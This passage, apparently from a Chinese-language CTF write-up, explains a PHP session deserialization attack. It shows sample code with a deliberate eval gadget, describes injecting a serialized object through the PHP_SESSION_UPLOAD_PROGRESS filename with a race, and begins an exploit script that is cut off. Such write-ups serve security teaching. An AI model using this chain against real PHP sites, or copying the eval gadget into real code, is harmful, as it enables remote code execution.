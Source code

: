 ##### 示例代码

```
<?php
error_reporting(0);
date_default_timezone_set("Asia/Shanghai");
ini_set('session.serialize_handler','php');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle=new TimeNow();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
class  IP{
    public $ip;
    function __construct() {
        $this->ip = 'echo $_SERVER["REMOTE_ADDR"];';
    }
    function action() {
        eval($this->ip);
    }
}
?>
```

##### 分析

**问题一**

整个代码没有参数可控的地方。通过什么方法来进行反序列化利用呢

**解答一**

这里，利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件。

另外，与文件包含利用一样，也需要进行竞争。

##### 利用脚本

首先利用exp.php脚本构造恶意序列化语句

```
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle = new IP();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
```